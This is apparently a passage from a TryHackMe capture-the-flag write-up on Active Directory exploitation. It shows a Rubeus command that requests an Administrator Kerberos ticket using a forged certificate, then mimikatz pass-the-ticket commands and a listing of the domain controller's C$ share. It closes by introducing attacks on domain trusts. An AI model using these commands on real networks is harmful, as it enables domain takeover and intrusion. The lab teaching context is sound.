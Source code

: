- Use the certificate to request a Kerberos ticket-granting ticket (TGT)
- Load the Kerberos TGT into your hacking platform of choice

For the first step, we will be using Rubeus.

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:[generated certificatename] /password: /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:[dc ip]
```

```
mimikatz # privilege::debug
mimikatz # kerberos:ptt administrator.kirbi
mimikatz # exit

C:\ > dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows                                                                  Volume Serial Number is 1634-22A9                                                                                                                                                                                                               Directory of \\THMDC.za.tryhackme.loc\c$                                                                                                                                                                                                       01/04/2022  08:47 AM               103 delete-vagrant-user.ps1                                                          05/01/2022  09:11 AM               169 dns_entries.csv                                                                  09/15/2018  08:19 AM    <DIR>          PerfLogs                                                                         03/21/2020  09:31 PM    <DIR>          Program Files                                                                    03/21/2020  09:28 PM    <DIR>          Program Files (x86)                                                              05/01/2022  09:17 AM             1,725 thm-network-setup-dc.ps1                                                         04/25/2022  07:13 PM    <DIR>          tmp                                                                              06/14/2022  03:13 PM    <DIR>          Users                                                                            04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]                                                      04/27/2022  08:12 PM    <DIR>          Windows                                                                                         3 File(s)          1,997 bytes                                                                                          7 Dir(s)  51,432,423,424 bytes free      
```

## Exploiting Domain Trusts

Even though we have access to Tier 0 infrastructure, this is still not enough.

We have only exploited the ZA.TRYHACKME.LOC domain. Surely TRYHACKME must have domains for other regions as well? 

Well, if we take control of the root domain, TRYHACKME.LOC, we will be in a position to compromise all of these regional domains. 

### Domain Trusts

Check AD Basics in case you have any doubts about "Forests"

There are two main types of trusts that can be configured between domains:

1. Directional - The direction of the trust flows from a trusting domain to a trusted domain
2. Transitive - The trust relationship expands beyond just two domains to include other trusted domains
